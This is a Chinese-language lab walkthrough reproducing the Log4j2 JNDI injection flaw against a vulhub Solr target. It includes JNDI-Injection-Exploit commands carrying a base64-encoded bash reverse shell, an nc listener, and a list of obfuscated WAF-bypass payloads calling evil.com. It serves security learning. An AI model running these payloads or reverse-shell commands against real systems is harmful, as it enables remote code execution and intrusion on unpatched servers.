>Solr 是一个广泛使用的、默认存在 Log4j2 依赖的、容易构造请求的标准靶标

## 漏洞原理
```
Log4j2 的 JNDI Lookup 功能会递归解析 ${} 包裹的表达式。攻击者可注入 ${jndi:ldap://恶意服务器/恶意类}，触发 JNDI 远程加载，导致 RCE
```
## 环境搭建
1. 靶机
   使用vulhub快速搭建
    - 常见问题：虚拟机网络不好，镜像拉取失败
    - 解决方案：在物理机中拉取镜像后让虚拟机从物理机中下载
    - 具体步骤：
      - 在物理机中拉取镜像：docker pull vulhub/log4j:2.8.1【也可以在Docker Desktop图形化界面中搜索vulhub/log4j然后点击pull】
      - 检查是否拉取成功：docker images | findstr log4j
      - 导出镜像为tar文件：docker save -o 指定保存路径\log4j.tar vulhub/log4j:2.8.1
      - 在tar文件所在目录下开启http服务：python -m http.server 9999
      - 在虚拟机中从物理机上下载镜像tar文件：wget http://物理机ip:9999/log4j.tar
      - 导入镜像：docker load -i log4j.tar
      - 验证是否导入成功：docker images | grep log4j
      - 进入相应容器目录：cd vulhub路径/log4j/CVE-2021-44228
      - 启动容器：docker-compose up -d
   还需要拉取solr:8.11.0镜像，操作步骤和上面一样，不再赘述
   
   浏览器可以正常访问环境搭建成功
   
2. 攻击机
   - kali：连接反弹shell
   - windows：开启jdni服务 
## 漏洞复现
### 寻找漏洞入口
1. 先在界面中寻找可能会被记录在日志中的操作接口
   发现Core Admin有操作点
   尝试点击ADD Core发现有报错提示 
2. 去Logging中查看发现错误提示已经被记录
   
3. 去burp记录中查看刚刚的请求包的详细信息，检查具体时哪些值被日志记录
     
   注意到错误信息中的
   
   这个solrconfig.xml对应我们提供的请求参数config的值
   
   说明应用程序应该是根据我们提供的文件名去查找该文件了
   也就是说这可能就是漏洞入口
4. 修改config的值为`${jndi:xxx}`，检验是否可以触发字符串解析
    
   可以看到`${jndi:xxx}`被解析为xxx可以这么这里存在jdni注入，应该就是漏洞入口了
### 漏洞验证
1. 使用DNS协议验证漏洞是否可用
2. 在DNSlog平台获取一个域名`e80f45af10.ddns.1433.eu.org`
   
3. 使用JNDI-Injection-Exploit快速验证
   使用该工具开启服务
   - HTTP服务
   - LDAP服务
   - RMI服务 
   `java -jar JNDI-Injection-Exploit-Plus-2.5-SNAPSHOT-all.jar -C "bash -c {echo,cGluZyBlODBmNDVhZjEwLmRkbnMuMTQzMy5ldS5vcmc=}|{base64,-d}|{bash,-i}" -A 192.168.162.1` 
   
4. 根据目标环境选择合适的payload注入`${jndi:ldap://192.168.162.1:1389/remoteExploit8}`
5. 发送恶意请求后可以看到我们起的jdni服务端收到了目标应用程序的请求，说明找对了漏洞入口
   但是DNSlog平台没有解析记录说明payload选择错了
   
6. 尝试注入不同的payload
    
   这次有解析记录了证明漏洞可利用
### 漏洞利用
1. 构造获取反弹shell的payload
   `java -jar JNDI-Injection-Exploit-Plus-2.5-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Mi4xMjkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" -A 192.168.162.1`
   
2. 在攻击机上开启监听`nc -lvnp 4444` ，在漏洞点注入payload
3. 检查攻击机获得反弹shell，漏洞利用成功
   
## WAF绕过
**常见 Payload 变体**
 - 大小写混淆	`${jNdI:lDaP://evil.com/x}`
 - 嵌套语法	`${${lower:j}ndi:${lower:l}dap://evil.com/x}`
 - 字符拆分	`${${::-j}ndi:ldap://evil.com/x}`
 - 环境变量拼接	`${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap://evil.com/x}`
 - Unicode编码	`${\u006a\u006e\u0064\u0069:\u006c\u0064\u0061\u0070://evil.com/x}`
 - 多协议支持	`${jndi:rmi://evil.com/x}、${jndi:dns://evil.com/x}、${jndi:iiop://evil.com/x}`
## 修复方案
- 版本升级
- 禁用Lookup 